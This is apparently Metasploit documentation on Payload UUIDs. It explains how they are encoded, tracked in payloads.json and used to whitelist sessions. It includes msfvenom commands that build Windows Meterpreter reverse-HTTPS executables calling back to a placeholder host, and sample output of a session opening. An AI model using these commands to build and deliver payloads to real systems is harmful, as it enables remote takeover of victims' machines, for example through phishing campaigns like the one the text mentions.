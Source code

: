 
In mid-2015, a new feature was added to many HTTP and TCP Metasploit payloads: Payload UUIDs. A Payload UUID is a 16-byte value that encodes an 8-byte identifier, a 1-byte architecture ID, a 1-byte platform ID, a 4-byte timestamp, and two additional bytes for obfuscation. The [source code comments](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/payload/uuid.rb) go into more detail.

In the case of HTTP payloads, the 16-byte UUID value is encoded in [base64url](https://tools.ietf.org/html/rfc4648#section-5) format resulting in a 22-byte string. This value is always placed in the beginning of the URL used by the payload. TCP payloads send the 16-byte raw value over the socket once a connection is established.

The goal of Payload UUIDs is three-fold:
 * Uniquely identify a generated payload. This is important when running social engineering campaigns to identify what specific payload a target executed. If an email campaign resulted in one user forwarding a payload to another user before it was executed, this can be determined by reviewing the UUID in the session listing.
 * Drop connections that do not match known UUIDs. This allows a listener to be setup that only allows known sessions to connect, which is important when running internet-facing payload handlers.
 * Enable universal handlers. The embedded platform and architecture identifiers allow the listener to determine what type of stage to send back to a stager. This will eventually allow for a single listener to be used with multiple exploits, even those that target different platforms and architectures.

### Specifying the UUID

Although Payload UUIDs are normally random, it is possible to specify a static UUID value using the ```PayloadUUIDRaw``` option. This option takes a 8-byte hex string, such as "0011223344556677". For example:
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDRaw=4444444444444444 -f exe -o payload.exe
```

Instead of specifying a static UUID as the raw 8-byte value, it is also possible to derive a static UUID using an arbitrary-length string using the PayloadUUIDSeed option:
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDSeed=ShellsAreDelicious -f exe -o payload.exe
```

### Tracking the UUID

Payload UUIDs are enabled by default, but are not tracked unless the ```PayloadUUIDTracking``` option is set to ```true```. Setting this option causes a new entry to be created in ```~/.msf4/payloads.json``` when any UUID-enabled payload is generated. It is also possible to create a local-only name for a given UUID using the ```PayloadUUIDName```. The example below will create a new registered payload with a custom name:

```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDTracking=true PayloadUUIDName=EmailCampaign20150101 -f exe -o payload.exe

$ cat ~/.msf4/payloads.json
{
  "68017d72958c40f6": {
    "arch": "x86",
    "platform": "windows",
    "timestamp": 1435277049,
    "payload": "payload/windows/meterpreter/reverse_https",
    "datastore": {"AutoLoadStdapi":true,"AutoRunScript":"","AutoSystemInfo":true,"AutoVerifySession":true,"AutoVerifySessionTimeout":30,"EXITFUNC":"process","EnableStageEncoding":false,"EnableUnicodeEncoding":false,"HttpUnknownRequestResponse":"\u003Chtml\u003E\u003Cbody\u003E\u003Ch1\u003EIt works!\u003C/h1\u003E\u003C/body\u003E\u003C/html\u003E","IgnoreUnknownPayloads":false,"InitialAutoRunScript":"","LHOST":"127.1.1.1","LPORT":4444,"MeterpreterServerName":"Apache","MeterpreterUserAgent":"Mozilla/4.0 (compatible; MSIE 6.1; Windows NT)","OverrideRequestHost":false,"PAYLOADUUIDNAME":"EmailCampaign20150101","PayloadProxyPort":0,"PayloadProxyType":"HTTP","PayloadUUIDTracking":true,"PrependMigrate":false,"ReverseListenerBindPort":0,"SessionCommunicationTimeout":300,"SessionExpirationTimeout":604800,"SessionRetryTotal":3600,"SessionRetryWait":10,"StageEncoderSaveRegisters":"","StageEncodingFallback":true,"StagerRetryCount":10,"StagerURILength":0,"StagerVerifySSLCert":false,"VERBOSE":false},
    "name": "EmailCampaign20150101",
    "urls": [
  "/aAF9cpWMQPb-3f_cq1FoJA040uMw26kAnvroJdztpVzDrNpqbpT7t3DyYy0cR2TyQE87XxHgIOKiYwP2FJNlNjrBXWQNiGWtzUK1ueJ0DyFjCXmULVo_gGrvi"
]
}
}
```

Once this payload is launched, the output of the ```sessions -l -v``` command will show the UUID, whether or not the UUID is registered, and any locally-assigned name of the UUID:
```
msf exploit(handler) > run -j
[*] 127.0.0.1:36235 (UUID: 68017d72958c40f6/x86=1/windows=1/2015-06-26T00:04:09Z) Staging Native payload ...
[*] Meterpreter session 1 opened (127.1.1.1:4444 -> 127.0.0.1:36235) at 2015-06-25 17:12:40 -0700

msf exploit(handler) > sessions  -l -v

Active sessions
===============

  Session ID: 1
        Type: meterpreter x86/win32
        Info: fang\hdm @ fang
      Tunnel: 127.1.1.1:4444 -> 127.0.0.1:36235 (127.0.0.1)
         Via: exploit/multi/handler
        UUID: 68017d72958c40f6/x86=1/windows=1/2015-06-26T00:04:09Z
   MachineID: 1fd541d2c4278e2d0c1b02f17f142f2b
     CheckIn: 1s ago @ 2015-06-25 17:12:47 -0700
  Registered: Yes - Name="EmailCampaign20150101"
  ```

### Whitelisting UUIDs

The ```~/.msf4/payloads.json``` file can also be used as a whitelist. This makes it possible to run a listener on a common port on a public IP address without the Metasploit Framework instance being flooded with bogus sessions. To enable whitelisting for HTTP payloads, set the ```IgnoreUnknownPayloads``` option to ```true``` in the handler instance. Any incoming request that does match both a registered Payload UUID and one of the pre-generated URLs will be ignored. The ```payloads.json``` file can be copied between Metasploit Framework instances and even hand-edited while the framework is running.

